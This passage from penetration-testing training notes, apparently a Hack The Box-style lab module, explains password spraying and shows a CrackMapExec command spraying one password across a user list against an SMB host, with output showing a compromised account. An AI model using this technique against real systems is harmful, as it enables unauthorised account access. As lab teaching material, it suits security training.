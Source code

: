 When brute-forcing, we try as many passwords as possible against an account, but it can lock out an account if we hit the threshold. We can use brute-forcing and stop before reaching the threshold if we know it. Otherwise, we do not recommend using brute force.

Password spraying is a better alternative since we can target a list of usernames with one common password to avoid account lockouts. We can try more than one password if we know the account lockout threshold. Typically, two to three attempts are safe, provided we wait 30-60 minutes between attempts. Let's explore the tool [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) that includes the ability to execute password spraying.

With CrackMapExec (CME), we can target multiple IPs, using numerous users and passwords. Let's explore an everyday use case for password spraying. To perform a password spray against one IP, we can use the option `-u` to specify a file with a user list and `-p` to specify a password. This will attempt to authenticate every user from the list using the provided password.

```shell-session
al1abb@htb[/htb]$ cat /tmp/userlist.txt

Administrator
jrodriguez 
admin
<SNIP>
jurena
```

```shell-session
al1abb@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```

{% hint style="info" %}
**Note:** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`. For a more detailed study Password Spraying see the Active Directory Enumeration & Attacks module.
{% endhint %}

For more detailed usage instructions, check out the tool's [documentation guide](https://web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials).

### **SMB**

